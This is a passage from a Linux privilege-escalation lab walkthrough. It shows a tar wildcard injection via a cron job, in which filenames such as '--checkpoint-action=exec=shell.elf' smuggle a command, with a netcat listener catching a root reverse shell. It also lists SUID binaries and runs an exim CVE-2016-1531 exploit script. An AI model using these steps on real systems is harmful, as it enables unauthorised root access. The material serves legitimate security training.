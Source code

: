`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1`\
`touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

We get root after 1minute.

### 10 - SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Note that `/usr/sbin/exim-4.84-3` appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

### 11 - SUID / SGID Executables - Shared Object Injection

#### Using LinPEAS to identify Shared Object Injections

After running LinPEAS. we analyze the results closely, we found that it checks the binaries with _strace_ utility to identify the shared objects and libraries utilized by the binaries.\


<figure><img src=".gitbook/assets/image (57).png" alt=""><figcaption><p>1</p></figcaption></figure>
